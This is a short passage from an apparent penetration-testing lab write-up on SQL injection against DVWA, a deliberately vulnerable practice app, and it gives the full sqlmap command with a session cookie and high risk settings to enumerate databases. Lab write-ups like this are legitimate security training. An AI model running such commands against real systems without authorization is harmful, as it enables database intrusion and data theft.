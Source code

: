 
#### SQL Injection Attack

I exploited SQL injection using sqlmap:

```
sqlmap -u "http://192.168.1.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
       --cookie="security=low; PHPSESSID=d6685aa8e22620cfbde447c83abfef21" \
       --dbs --batch --level=3 --risk=3

```

![ScreenShot](https://raw.githubusercontent.com/Shubhk0/cyart-vapt-team/refs/heads/main/week2/Practical/screenshots/Capstone%20Project%20Full%20VAPT%20Cycle-1755859934733.jpeg)

![ScreenShot](https://raw.githubusercontent.com/Shubhk0/cyart-vapt-team/refs/heads/main/week2/Practical/screenshots/Capstone%20Project%20Full%20VAPT%20Cycle-1755861589271.jpeg)
	